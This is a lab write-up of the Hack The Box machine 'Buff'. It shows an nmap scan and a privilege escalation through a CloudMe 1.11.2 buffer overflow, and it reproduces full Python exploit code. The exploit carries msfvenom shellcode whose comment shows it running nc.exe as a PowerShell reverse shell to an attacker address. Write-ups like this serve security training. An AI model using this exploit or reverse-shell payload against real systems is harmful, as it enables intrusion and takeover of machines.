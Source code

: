 # Buff (`10.10.10.198`)

## Summary

RCE exploit on `Gym Management System 1.0` for an inital shell, and a Buffer Overflow on `CloudMe 1.11.2` for root. 

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `buff.htb` to `10.10.10.198`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports buff.htb
# Nmap 7.80 scan initiated Wed Dec  9 05:35:49 2020 as: nmap -A -v -p- -Pn -oN allports buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up (0.12s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Randomized

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   41.32 ms  10.10.14.1
2   105.12 ms buff.htb (10.10.10.198)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  9 05:44:25 2020 -- 1 IP address (1 host up) scanned in 516.32 seconds

```

I open the webpage in Firefox and see this homepage. I find a version string for the software deployed and see there are public exploits available.

![](img/2020-12-09-06-36-34.png)

![](img/2020-12-09-06-37-33.png)

## Reverse Shell

![](img/2020-12-09-06-38-42.png)

![](img/2020-12-09-06-38-53.png)

And we have a shell.

## Privilege Escalation

![](img/2020-12-09-06-40-56.png)

I copy `nc.exe` over to get a fully-capable shell, and then work from there.

![](img/2020-12-09-06-45-44.png)

![](img/2020-12-09-06-45-57.png)

![](img/2020-12-09-06-46-42.png)

![](img/2020-12-09-06-46-49.png)

I see `CloudMe_1112.exe` in `Downloads`, and I see it's running with `tasklist`. I runs on port `8888` by default.

![](img/2020-12-09-20-55-45.png)

![](img/2020-12-09-20-57-42.png)

I port forward `8888` on the target to `localhost:8888` with `chisel`, after copying `chisel` over the same way I copied `nc.exe` over.

![](img/2020-12-09-21-06-00.png)

![](img/2020-12-09-21-06-08.png)

I modify a `CloudMe 1.11.2` Buffer Overflow exploit and run it to get root.

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -a x86 -p windows/exec CMD="C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.27 443 -e powershell.exe" -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xdb\xcc\xbe\xe4\xe1\x89\x94\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x40\x83\xc0\x04\x31\x70\x13\x03\x94"
payload += b"\xf2\x6b\x61\xa8\x1d\xe9\x8a\x50\xde\x8e\x03\xb5"
payload += b"\xef\x8e\x70\xbe\x40\x3f\xf2\x92\x6c\xb4\x56\x06"
payload += b"\xe6\xb8\x7e\x29\x4f\x76\x59\x04\x50\x2b\x99\x07"
payload += b"\xd2\x36\xce\xe7\xeb\xf8\x03\xe6\x2c\xe4\xee\xba"
payload += b"\xe5\x62\x5c\x2a\x81\x3f\x5d\xc1\xd9\xae\xe5\x36"
payload += b"\xa9\xd1\xc4\xe9\xa1\x8b\xc6\x08\x65\xa0\x4e\x12"
payload += b"\x6a\x8d\x19\xa9\x58\x79\x98\x7b\x91\x82\x37\x42"
payload += b"\x1d\x71\x49\x83\x9a\x6a\x3c\xfd\xd8\x17\x47\x3a"
payload += b"\xa2\xc3\xc2\xd8\x04\x87\x75\x04\xb4\x44\xe3\xcf"
payload += b"\xba\x21\x67\x97\xde\xb4\xa4\xac\xdb\x3d\x4b\x62"
payload += b"\x6a\x05\x68\xa6\x36\xdd\x11\xff\x92\xb0\x2e\x1f"
payload += b"\x7d\x6c\x8b\x54\x90\x79\xa6\x37\xff\x7c\x34\x42"
payload += b"\x4d\x7e\x46\x4c\xe2\x17\x77\xc7\x6d\x6f\x88\x02"
payload += b"\xca\x9f\xc2\x0e\x7b\x08\x8b\xdb\x39\x55\x2c\x36"
payload += b"\x7d\x60\xaf\xb2\xfe\x97\xaf\xb7\xfb\xdc\x77\x24"
payload += b"\x76\x4c\x12\x4a\x25\x6d\x37\x09\xf3\xcd\xc0\xec"
payload += b"\x6e\x9e\x40\xb2\x18\x2a\xc5\x25\xba\xa1\x59\xde"
payload += b"\x45\x2b\x3e\x55\xc6\xdf\xd1\xf4\x42\x7c\x40\x95"
payload += b"\xa4\x19\xe4\x3c\x99\xd0\x24\x90\xe8\x22\x6b\xdd"
payload += b"\x3e\x6d\x41\x2a\x1f\x45\x91\x67\x7f\x88\xbc\xa7"
payload += b"\x0f\xbd\x49\xc2\x9d\x32\xde\x69\x0e\xd9\x30\x14"
payload += b"\xb6\x44\x4d"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)

```

## Root

![](img/2020-12-09-21-08-28.png)